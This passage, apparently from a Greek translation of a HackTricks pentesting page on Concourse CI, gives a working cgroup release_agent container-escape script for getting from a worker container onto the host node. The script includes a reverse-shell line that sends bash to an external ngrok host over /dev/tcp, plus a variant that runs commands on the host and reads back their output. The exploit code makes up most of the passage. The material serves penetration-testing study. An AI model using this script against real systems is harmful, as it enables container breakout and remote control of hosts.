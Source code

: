 ```bash
echo "ps aux > $host_path/output" >> /cmd
chmod a+x /cmd
#====================================

# Executes the attack by spawning a process that immediately ends inside the "x" child cgroup
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"

# Reads the output
cat /output
```
{% hint style="warning" %}
Όπως ίσως έχετε παρατηρήσει, αυτό είναι απλώς ένα [**regular release\_agent escape**](https://github.com/carlospolop/hacktricks-cloud/blob/master/pentesting-ci-cd/concourse-security/broken-reference/README.md) απλώς τροποποιώντας τη διαδρομή της cmd στον κόμβο
{% endhint %}

#### Απόδραση στον κόμβο από ένα κοντέινερ Worker

Ένα regular release\_agent escape με μια μικρή τροποποίηση είναι αρκετό για αυτό:
```bash
mkdir /tmp/cgrp && mount -t cgroup -o memory cgroup /tmp/cgrp && mkdir /tmp/cgrp/x

# Enables cgroup notifications on release of the "x" cgroup
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab | head -n 1`
echo "$host_path/cmd" > /tmp/cgrp/release_agent

#====================================
#Reverse shell
echo '#!/bin/bash' > /cmd
echo "bash -i >& /dev/tcp/0.tcp.ngrok.io/14966 0>&1" >> /cmd
chmod a+x /cmd
#====================================
# Get output
echo '#!/bin/sh' > /cmd
echo "ps aux > $host_path/output" >> /cmd
chmod a+x /cmd
#====================================

# Executes the attack by spawning a process that immediately ends inside the "x" child cgroup
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"

# Reads the output
cat /output
```
#### Απόδραση στον κόμβο από το Web container

Ακόμα και αν το web container έχει κάποιες άμυνες απενεργοποιημένες, **δεν εκτελείται ως ένα κοινό προνομιούχο container** (για παράδειγμα, **δεν μπορείτε** να **προσαρτήσετε** και οι **δυνατότητες** είναι πολύ **περιορισμένες**, οπότε όλοι οι εύκολοι τρόποι απόδρασης από το container είναι άχρηστοι).
